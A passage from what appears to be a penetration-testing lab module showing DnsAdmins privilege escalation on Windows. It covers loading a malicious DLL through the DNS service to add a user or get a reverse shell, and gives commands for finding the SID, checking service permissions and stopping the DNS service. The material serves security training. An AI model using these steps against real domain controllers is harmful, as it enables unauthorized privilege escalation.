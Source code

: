 > [!NOTE]
> We must specify the full path to our custom DLL or the attack will not work properly.

Only the `dnscmd` utility can be used by members of the `DnsAdmins` group, as they do not directly have permission on the registry key.

With the registry setting containing the path of our malicious plugin configured, and our payload created, the DLL will be loaded the next time the DNS service is started. Membership in the DnsAdmins group doesn't give the ability to restart the DNS service, but this is conceivably something that sysadmins might permit DNS admins to do.

After restarting the DNS service (if our user has this level of access), we should be able to run our custom DLL and add a user (in our case) or get a reverse shell. If we do not have access to restart the DNS server, we will have to wait until the server or service restarts. Let's check our current user's permissions on the DNS service.

#### Finding User's SID

First, we need our user's SID.

```cmd-session
C:\htb> wmic useraccount where name="netadm" get sid

SID
S-1-5-21-669053619-2741956077-1013132368-1109
```

#### Checking Permissions on DNS Service

Once we have the user's SID, we can use the `sc` command to check permissions on the service. Per this [article](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/), we can see that our user has `RPWP` permissions which translate to `SERVICE_START` and `SERVICE_STOP`, respectively.

DnsAdmins

```cmd-session
C:\htb> sc.exe sdshow DNS

D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```

Check out the `Windows Fundamentals` module for an explanation of SDDL syntax in Windows.

#### Stopping the DNS Service

After confirming these permissions, we can issue the following commands to stop and start the service.

DnsAdmins

```cmd-session
C:\htb> sc stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
```
